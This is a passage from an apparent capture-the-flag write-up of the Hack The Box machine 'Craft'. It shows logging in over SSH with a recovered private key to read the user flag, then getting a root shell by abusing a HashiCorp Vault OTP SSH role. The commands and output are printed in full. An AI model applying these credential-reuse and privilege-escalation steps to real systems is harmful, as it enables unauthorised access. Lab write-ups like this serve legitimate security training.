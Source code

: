 It appears as though he's running `vault` as root. Once we get access to the user flag, we'll probably be using this for our privilege escalation to root.

First, let's add the keys we've found to our own `~/.ssh/` directory in kali and see if we can get the user flag finally.

```console
root@kali:~/.ssh# ssh-add
Enter passphrase for /root/.ssh/id_rsa:
Identity added: /root/.ssh/id_rsa (gilfoyle@craft.htb)
root@kali:~/.ssh# ssh gilfoyle@craft.htb


  .   *   ..  . *  *
*  * @()Ooc()*   o  .
    (Q@*0CG*O()  ___
   |\_________/|/ _ \
   |  |  |  |  | / | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | \_| |
   |  |  |  |  |\___/
   |\_|__|__|_/|
    \_________/



Linux craft.htb 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Aug 13 18:45:12 2019 from 10.10.14.167
gilfoyle@craft:~$ cat user.txt
bbf4b0cadfa3d4e6d0914c9cd5a612d4
gilfoyle@craft:~$
```

After adding gilfoyle's keys and using his password once again for `ssh-add`, you can see we gain the user flag. On to the root portion we go.

## Root Flag
Now we already know about something very important, and thats `vault`. After some research on how to craft the command we're able to easily gain a root shell through this application.

```console
gilfoyle@craft:/$ vault ssh -mode=otp -role=root_otp root@craft.htb
Vault could not locate "sshpass". The OTP code for the session is displayed
below. Enter this code in the SSH password prompt. If you install sshpass,
Vault can automatically perform this step for you.
OTP for the session is: 60fafe1c-2221-6dd7-d16f-9c6ba0c996eb


  .   *   ..  . *  *
*  * @()Ooc()*   o  .
    (Q@*0CG*O()  ___
   |\_________/|/ _ \
   |  |  |  |  | / | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
```